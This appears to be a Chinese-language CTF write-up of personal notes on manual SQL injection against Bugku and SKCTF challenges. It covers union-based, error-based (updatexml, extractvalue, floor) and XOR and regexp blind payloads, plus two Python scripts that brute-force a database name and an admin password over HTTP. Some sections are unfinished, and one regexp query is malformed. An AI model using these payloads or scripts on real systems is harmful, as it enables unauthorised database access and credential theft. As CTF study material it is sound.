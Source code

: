 # SQL 注入
sql注入题都是sqlmap一把梭（一直咕咕咕，太羞耻了，终于要学一下手工注入了
### 普通手工简单注入大致流程
1. 判断注入点，fuzz过滤
2. 判断字段数
3. 获取基本信息（数据库名称，表名，字段名）
#### 0x01 bugku-成绩单
发现`1'#`正常返回，啥也没过滤，直接爆字段数，数据库名，表名，字段名
```
1' order by 4#		//获取字段数
5' union select database(),user(),version(),version()#		//获取数据库名称 skctf_flag
5' union select table_name,table_name,table_name,table_name from information_schema.tables where table_schema='skctf_flag'#		//获取表名	fl4g
5' union select column_name,column_name,column_name,column_name from information_schema.columns where table_name='fl4g'#	//获取字段名  skctf_flag
5' union select skctf_flag,skctf_flag,skctf_flag,skctf_flag from fl4g#		//获取内容
```
得到flag
#### 0x02 这是一个神奇的神奇的登录框
用`1"`发现有mysql报错，刚刚好看了利用报错注入（用普通注入也可以的
1. 使用updatexml报错注入

```
1" and updatexml(1,concat(0x7e,database()),0)#		//数据库名称：bugkusql1
1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),0)#		//表名：flag1
1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='flag1' limit 0,1)),0)#		//字段名：flag1
1" and updatexml(1,concat(0x7e,(select flag1 from flag1 )),0)#		//ed6b28e684817d9efcaf802979e57ae
```
//使用extractvalue()报错
poload:`1" and extractvalue(0,concat(0x7e,version()))#`
//使用floor()报错
pyload:`1" and (select 2 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#`
使用floor()报错注意最后会多出来一个`1`
### 盲注
##### 常见盲注注入方式
###### 异或(XOR)注入
payload:`admin'^(ascii(mid(version()from(1)))>'1')^'1'='1'#`
前面和后面语句都固定为真，只有中间不确定，整个payload的结果都由中间的结果决定
```
1^0^1 --> 0
1^1^1 --> 1
```
不需要`and or (空格) ,` 
这里如果=被过滤还可以使用`<>`
`如果过滤了注释符和%`那就把最后一个单引号去掉`^'1'='1`
###### regexp注入
payload
###### order by盲注
payload

#### 0x03  login3(SKCTF)
bp抓包，使用爆破模块fuzz一下过滤
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512144742573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjI3ODI5,size_16,color_FFFFFF,t_70)
发现`^,<,>`没被过滤，使用第一个异或盲注

```python
import requests
url = 'http://123.206.31.85:49167/index.php'
str1 = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}+-*/=()"
req = requests.Session()
def databases():
    database = ""
    for j in range(40):
        for i in str1:
            post = {
                "username":"admin'^(ascii(mid(database()from({})))<>{})^('1'<'2')#".format(str(j),ord(i)),
                "password":"123"
            }
            # print(post)
            text = req.post(url,data=post).content.decode('utf-8')
            if "username does not exist!" in text:
                database+=str(i)
                print(database)
                break
            #print(text)
    print(database)
def password():
    passwd = ""
    for j in range(40):
        for i in str1:
            post = {
                "username": "admin'^(ascii(mid((password)from({})))<>{})^('1'<'2')#".format(str(j), ord(i)),
                "password": "123"
            }
            # print(post)
            text = req.post(url, data=post).content.decode('utf-8')
            if "username does not exist!" in text:
                passwd += str(i)
                print(passwd)
                break
            # print(text)
    print(passwd)
password()
```
在fuzz时发现infomation被过滤不能得到表名和字段名
通过`admin'^(select(1)from(admin))^1#`这个payload来撞表名
猜字段用`admin'^(select(count(password))from(admin))^1#`来撞表名

得到admin的密码的md5()
#### 0x04 sql注入2（bugku）
与上一题类似，比上一题多过滤了`#`
所以payload改为`admin'^(ascii(mid(database()from({})))<>{})^'1'='1`

```python
import requests
url = 'http://123.206.87.240:8007/web2/login.php'
str1 = ".1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}+-*/=()"
req = requests.Session()
def databases():
    database = ""
    for j in range(40):
        for i in str1:
            post = {
                "uname":"admin'^(ascii(mid(database()from({})))<>{})^'1'='1".format(str(j),ord(i)),
                "passwd":"123"
            }
            #print(post)
            text = req.post(url,data=post).content.decode('utf-8')
            #print(text)
            if "username error!!@_@" in text:
                database+=str(i)
                print(database)
                break
            #print(text)
    print(database)
def password():
    passwd = ""
    for j in range(40):
        for i in str1:
            post = {
                "uname": "admin'^(ascii(mid((passwd)from({})))<>{})^'1'='1".format(str(j), ord(i)),
                "passwd": "123"
            }
            # print(post)
            text = req.post(url, data=post).content.decode('utf-8')
            if "username error!!@_@" in text:
                passwd += str(i)
                print(passwd)
                break
            # print(text)
    print(passwd)
```
password
```mysql
0' or (select database()regexp'{}{}$') or '1'='

0' or (select table_name from infomation.scheam.table where table.scheam='pikachu')regexp'a$'

0' or (select (select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1) regexp 'r$') 		//表名

0' or (select (select group_concat(column_name) from information_schema.columns where table_name='fiag' limit 1) regexp 'd$') or '1'='  	//字段名

0' or (select (select group_concat(fl$4g) from fiag limit 1) regexp 't$') or '1'='
```
得到`admin`的密码，打开输入`ls`